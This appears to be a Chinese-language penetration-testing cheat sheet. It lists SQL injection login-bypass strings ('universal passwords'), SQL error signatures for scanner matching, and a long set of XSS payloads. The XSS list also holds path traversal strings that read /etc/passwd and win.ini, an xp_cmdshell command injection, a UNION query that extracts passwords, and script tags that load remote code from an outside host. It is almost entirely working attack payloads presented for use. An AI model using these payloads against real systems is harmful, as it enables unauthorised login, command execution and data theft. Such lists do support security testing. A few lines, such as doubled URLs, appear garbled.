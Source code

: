 ##SQL万能密码
说明
用于后台SQL注入测试

	'or'='or'
	'or''='
	'or ''='
	" or "a"="a
	"or "a"="a
	"or 1=1--
	"or 1=1%00
	"or"="a'='a
	"or=or"
	') or ('a'='a
	')or('a'='a
	1 or '1'='1' or 1=1
	1 or '1'='1'=1
	1'or'1'='1
	admin' or 'a'='a 密码随便
	admin'or'1'='1'--
	admin' or '1'='1'--
	a'or' 1=1--
	a 'or' 1=1--
	or 1=1--
	'or 1=1--
	'or' '1'='1
	or 1=1-- '
	'OR 1=1%00
	or 'a'='a
	'or'='1'
	'or''=''or''='
	' or ''=''or''='
	'or'1'='1
	' or '1'='1
	'or'a'='a
	' or 'a'='a
	'xor
	' UNION Select 1,1,1 FROM admin Where ''='
##SQL错误特征
**用于扫描器匹配**

	A syntax error has occurred
	ADODB.Field error
	ASP.NET is configured to show verbose error messages
	ASP.NET_SessionId
	Active Server Pages error
	An illegal character has been found in the statement
	An unexpected token "END-OF-STATEMENT" was found
	CLI Driver
	Can't connect to local
	Custom Error Message
	DB2 Driver
	DB2 Error
	DB2 ODBC
	Died at
	Disallowed Parent Path
	Error Diagnostic Information
	Error Message : Error loading required libraries.
	Error Report
	Error converting data type varchar to numeric
	Fatal error
	Incorrect syntax near
	Index of
	Internal Server Error
	Invalid Path Character
	Invalid procedure call or argument
	Invision Power Board Database Error
	JDBC Driver
	JDBC Error
	JDBC MySQL
	JDBC Oracle
	JDBC SQL
	Microsoft OLE DB Provider for ODBC Drivers
	Microsoft VBScript compilation error
	Microsoft VBScript error
	MySQL Driver
	MySQL Error
	MySQL ODBC
	ODBC DB2
	ODBC Driver
	ODBC Error
	ODBC Microsoft Access
	ODBC Oracle
	ODBC SQL
	ODBC SQL Server
	OLE/DB provider returned message
	ORA-0
	ORA-1
	Oracle DB2
	Oracle Driver
	Oracle Error
	Oracle ODBC
	PHP Error
	PHP Parse error
	PHP Warning
	Parent Directory
	Permission denied: 'GetObject'
	PostgreSQL query failed: ERROR: parser: parse error
	SQL Server Driver][SQL Server
	SQL command not properly ended
	SQLException
	Supplied argument is not a valid PostgreSQL result
	Syntax error in query expression
	The error occurred in
	The script whose uid is
	Type mismatch
	Unable to jump to row
	Unclosed quotation mark before the character string
	Unterminated string constant
	Warning: Cannot modify header information - headers already sent
	Warning: Supplied argument is not a valid File-Handle resource in
	Warning: mysql_query()
	Warning: pg_connect(): Unable to connect to PostgreSQL server: FATAL
	You have an error in your SQL syntax near
	data source=
	detected an internal error [IBM][CLI Driver][DB2/6000]
	error
	include_path
	invalid query
	is not allowed to access
	line
	missing expression
	mySQL error with query
	mysql error
	on MySQL result index
	on line
	server at
	server object error
	supplied argument is not a valid MySQL result resource
	unexpected end of SQL command
##XSS Payload
说明
用于测试XSS跨站脚本攻击

		'><script>alert(document.cookie)</script>
		='><script>alert(document.cookie)</script>
		<script>alert(document.cookie)</script>
		<script>alert(vulnerable)</script>
		%3Cscript%3Ealert('XSS')%3C/script%3E
		<script>alert('XSS')</script>
		<img src="javascript:alert('XSS')">
		%0a%0a<script>alert(\"Vulnerable\")</script>.jsp
		%22%3cscript%3ealert(%22xss%22)%3c/script%3e
		%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
		%2E%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/windows/win.ini
		%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
		%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
		%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html
		%3f.jsp
		%3f.jsp
		<script>alert('Vulnerable');</script>
		<script>alert('Vulnerable')</script>
		?sql_debug=1
		a%5c.aspx
		a.jsp/<script>alert('Vulnerable')</script>
		a/
		a?<script>alert('Vulnerable')</script>
		"><script>alert('Vulnerable')</script>
		';exec%20master..xp_cmdshell%20'dir%20 c:%20>%20c:\inetpub\wwwroot\?.txt'--&&
		%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E
		%3Cscript%3Ealert(document. domain);%3C/script%3E&
		%3Cscript%3Ealert(document.domain);%3C/script%3E&SESSION_ID={SESSION_ID}&SESSION_ID=
		1%20union%20all%20select%20pass,0,0,0,0%20from%20customers%20where%20fname=
		http://www.cnblogs.com/http://www.cnblogs.com/http://www.cnblogs.com/http://www.cnblogs.com/etc/passwd
		..\..\..\..\..\..\..\..\windows\system.ini
		\..\..\..\..\..\..\..\..\windows\system.ini
		'';!--"<XSS>=&{()}
		<IMG src="javascript:alert('XSS');">
		<IMG src=javascript:alert('XSS')>
		<IMG src=JaVaScRiPt:alert('XSS')>
		<IMG src=JaVaScRiPt:alert("XSS")>
		<IMG src=javascript:alert('XSS')>
		<IMG src=javascript:alert('XSS')>
		<IMG src=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
		<IMG src="jav ascript:alert('XSS');">
		<IMG src="jav ascript:alert('XSS');">
		<IMG src="jav ascript:alert('XSS');">
		"<IMG src=java\0script:alert(\"XSS\")>";' > out
		<IMG src=" javascript:alert('XSS');">
		<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
		<BODY BACKGROUND="javascript:alert('XSS')">
		<BODY ONLOAD=alert('XSS')>
		<IMG DYNSRC="javascript:alert('XSS')">
		<IMG LOWSRC="javascript:alert('XSS')">
		<BGSOUND src="javascript:alert('XSS');">
		<br size="&{alert('XSS')}">
		<LAYER src="http://xss.ha.ckers.org/a.js"></layer>
		<LINK REL="stylesheet" href="javascript:alert('XSS');">
		<IMG src='vbscript:msgbox("XSS")'>
		<IMG src="mocha:[code]">
		<IMG src="livescript:[code]">
		<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
		<IFRAME src=javascript:alert('XSS')></IFRAME>
		<FRAMESET><FRAME src=javascript:alert('XSS')></FRAME></FRAMESET>
		<TABLE BACKGROUND="javascript:alert('XSS')">
		<DIV STYLE="background-image: url(javascript:alert('XSS'))">
		<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html');">
		<DIV STYLE="width: expression(alert('XSS'));">
		<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
		<IMG STYLE='xss:expre\ssion(alert("XSS"))'>
		<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
		<STYLE TYPE="text/css">.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A class="XSS"></A>
		<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
		<BASE href="javascript:alert('XSS');//">
		getURL("javascript:alert('XSS')")
		a="get";b="URL";c="javascript:";d="alert('XSS');";eval(a+b+c+d);
		<XML src="javascript:alert('XSS');">
		"> <BODY ONLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"
		<SCRIPT src="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>
		<IMG src="javascript:alert('XSS')"
		<!--#exec cmd="/bin/echo '<SCRIPT SRC'"--><!--#exec cmd="/bin/echo '=http://xss.ha.ckers.org/a.js></SCRIPT>'"-->
		<IMG src="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
		<SCRIPT a=">" src="http://xss.ha.ckers.org/a.js"></SCRIPT>
		<SCRIPT =">" src="http://xss.ha.ckers.org/a.js"></SCRIPT>
		<SCRIPT a=">" '' src="http://xss.ha.ckers.org/a.js"></SCRIPT>
		<SCRIPT "a='>'" src="http://xss.ha.ckers.org/a.js"></SCRIPT>
		<SCRIPT>document.write("<SCRI");</SCRIPT>PT src="http://xss.ha.ckers.org/a.js"></SCRIPT>
		<A href=http://www.gohttp://www.google.com/ogle.com/>link</A>